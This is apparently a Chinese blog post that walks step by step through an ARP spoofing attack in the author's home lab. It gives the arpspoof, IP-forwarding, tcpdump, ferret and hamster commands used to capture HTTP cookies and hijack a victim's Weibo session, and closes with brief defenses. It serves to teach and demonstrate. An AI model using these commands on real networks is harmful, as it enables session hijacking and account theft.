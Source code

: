 ```yaml
---
layout:     post
title:      "局域网攻击之 ARP 欺骗"
subtitle:   "使用 Kali Linux 下的 arpspoof, tcpdump, ferret, hamster 通过 ARP 攻击实现 Cookie 劫持"
date:       2016-06-23 21:32 +0800
author:     "gsfish"
header-img: "img/post-bg-kali.jpg"
tags:
    - 内网
    - ARP
---
```


> 大部分内容都是参考的网上的教程，但还是想照着试试并记录一下

#### 基本环境：

> 网关：  
> 192.168.1.1  
>   
> 攻击者：  
> IP: 192.168.1.110  
> OS: Kali Linux (VirtualBox)  
>   
> 靶机：  
> IP: 192.168.1.105  
> OS: Windows 10  

---

## 0x00 说下思路

- 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
- 等待目标用户进行登陆操作，抓取 HTTP 数据包
- 解析所抓取的数据包，并提取出 Cookie
- 将 Cookie 导入浏览器，从而实现劫持目标用户的会话

---

## 0x01 事前准备

#### 一、安装 ferret

除 ferret 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 ferret（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 hamster 是由一个叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

1) 增加对 32 位程序的支持

`root@kali:~# dpkg --add-architecture i386`

2) 更新源

`root@kali:~# apt-get update`

3) 安装

`root@kali:~# apt-get install ferret-sidejack`

#### 二、开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

`root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward`

---

## 0x02 作战开始

#### 一、进行 ARP 欺骗

`root@kali:~# arpspoof -i eth0 -t 192.168.1.105 192.168.1.1`

![01.png](/img/lan-attack-cookie-hijack/01.png)

`root@kali:~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.105`

![02.png](/img/lan-attack-cookie-hijack/02.png)

> 参数解释  
> **-i**    所用的网卡设备名  
> **-t**    攻击目标的 IP（由于是单向的，所以需要开启两个）

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符。

`WIN + R` 输入 `cmd`

在靶机中看一下效果。

`C:\Users\gsfish>arp -a`

> 参数解释  
> **-a**    通过询问当前协议数据，显示当前 ARP 项

![03.png](/img/lan-attack-cookie-hijack/03.png)

Bingo~ 可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

#### 二、抓取 HTTP 数据包

`root@kali:~# tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap`

> 参数解释  
> **-i**    所用的网卡设备名  
> **-w**    生成数据包的名称  
> **tcp port 80 and host 192.168.1.105**    抓取通过 192.168.1.105:80 的数据包

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](/img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 ferret 来解析一下。

#### 三、解析 cookie.cap

`root@kali:~# ferret -r cookie.cap`

> 参数解释  
> **-r**    读取数据包并将其解析，生成 hamster.txt  
> **-i**    所用的网卡设备名（其实 ferret 也有抓包的功能）

![05.png](/img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

#### 四、加载 Cookie，模拟登陆

`root@kali:~# hamster`

hamster 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 hamster 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中。

![06.png](/img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`。

![07.png](/img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面。

![08.png](/img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。嘿嘿嘿，点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦。

![09.png](/img/lan-attack-cookie-hijack/09.png)

---

## 0x03 关于防范

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN 或者 Tor）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[An ARP Attack](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)

---

> 参考资料：  
> [『局域网安全』利用ARP欺骗劫持Cookie](http://www.cnblogs.com/anka9080/p/arpspoof.html)
